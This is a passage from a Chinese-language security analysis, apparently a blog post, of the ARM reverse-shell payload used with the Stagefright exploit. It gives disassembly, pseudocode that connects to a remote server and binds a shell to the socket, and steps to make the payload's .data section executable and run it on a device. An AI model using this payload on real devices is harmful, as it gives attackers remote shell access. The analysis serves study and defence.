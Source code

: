```
.data:000020CC 73 68 00      aSh             DCB "sh",0              ; DATA XREF: .data:000020A0o
.data:000020CF 00                                      DCB    0
.data:000020D0 50 41 54 48 3D 2F 73 62+aPathSbinVendor DCB "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin",0
.data:000020D0 69 6E 3A 2F 76 65 6E 64+       ; DATA XREF: .data:00002090o
.data:0000210D 00                                      DCB    0

```

payload通过svc指令调用相应的linux函数，相应的函数已备注在汇编代码中，这段代码功能是通过tcp连接远程服务器的特定端口，伪代码如下：

```
r = fork();
if r<>0
exit_thread();
setsid();
s = socket(2,1,6);
connect(s, socaddr, 0x10);
dup2(s,0);//@stdin
dup2(s,1);//@stdout
dup2(s,2);//@stderr
execve("/system/bin/sh", "sh", "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin");

```

loader编译后直接运行会失败，这是因为payload存储在“.data”节中，其属性是“Read”的，需要为该节增加“Execute”属性才会运行成功。这里使用010 Editor的ELFTemplate为“.data”节增加“Execute”属性：

![p1](http://drops.javaweb.org/uploads/images/e0fb47a507b1646d09b1fb9a6bfceaef6e241efc.jpg)

然后push到设备中，即可运行成功：

![p2](http://drops.javaweb.org/uploads/images/a15195302fdb09aaf11b0176df818ecd6615044e.jpg)

0x02 参考
=====

1.  [https://blog.zimperium.com/the-latest-on-stagefright-cve-2015-1538-exploit-is-now-available-for-testing-purposes/](https://blog.zimperium.com/the-latest-on-stagefright-cve-2015-1538-exploit-is-now-available-for-testing-purposes/)
2.  [https://github.com/jduck/cve-2015-1538-1](https://github.com/jduck/cve-2015-1538-1)
3.  [https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb)